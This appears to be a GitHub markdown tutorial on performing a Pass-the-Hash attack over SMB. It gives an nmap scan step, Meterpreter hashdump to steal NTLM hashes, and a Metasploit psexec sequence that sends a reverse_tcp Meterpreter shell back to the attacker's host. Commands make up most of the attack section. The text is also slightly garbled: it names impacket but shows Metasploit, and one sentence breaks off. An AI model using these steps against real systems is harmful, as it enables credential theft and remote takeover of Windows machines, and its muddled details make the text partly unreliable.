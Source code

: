 ## password hash
### Pass-the-Hash Attack 



**Prerequisites for Pass-the-Hash Attack**
To successfully perform a Pass-the-Hash (PtH) attack and maintain access using SMB, you must ensure the following:

1. **Obtain the Hash**: 
   - The attacker must have the NTLM hash of a valid user. This user must have administrative privileges or belong to the Administrators group on the target system.
   
2. **Administrator Privileges**:
   - The user whose hash is obtained needs to be part of the local administrators or domain admin group on the target machine for privileged access.

3. **Open Services (like SMB)**:
   - The target system must have SMB (port 445) open to facilitate the connection. Other services could be checked for vulnerabilities, but for this example, we focus on SMB.
#### pass the hash attack over smb

 **Steps to Scan the Target**
Before performing the Pass-the-Hash attack, you should scan the target for open services. Here’s an example using `nmap`:

```bash
nmap  <target-ip>
```

This will check if SMB is open on the target. If SMB is available, you can proceed with the attack.

**get the admin hash**
> need to be system user , but it can also work on administrator user with  some windows versions

```bash
#using metasploit meterpreter 
meterpreter> run hashdump  
```
- `hashdump (hashdump)`  is a basic, direct method for dumping hashes.
- **`smart_hashdump (run hashdump)`** is a more sophisticated and adaptive module that tries to use the most


**Pass-the-Hash Attack on SMB**

Assuming you have the NTLM hash for a user with administrative rights, you can use the `impacket` suite for the Pass-the-Hash attack. Here’s an example:

```bash
# using metasploit
use exploit/windows/smb/psexec
set RHOSTS <target_ip>
set SMBUser <username>
set SMBPass <ntlm_hash>
set SMBPass NT <NTLM_hash> (if only the NTLM hash is used)
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your_ip>
run

```
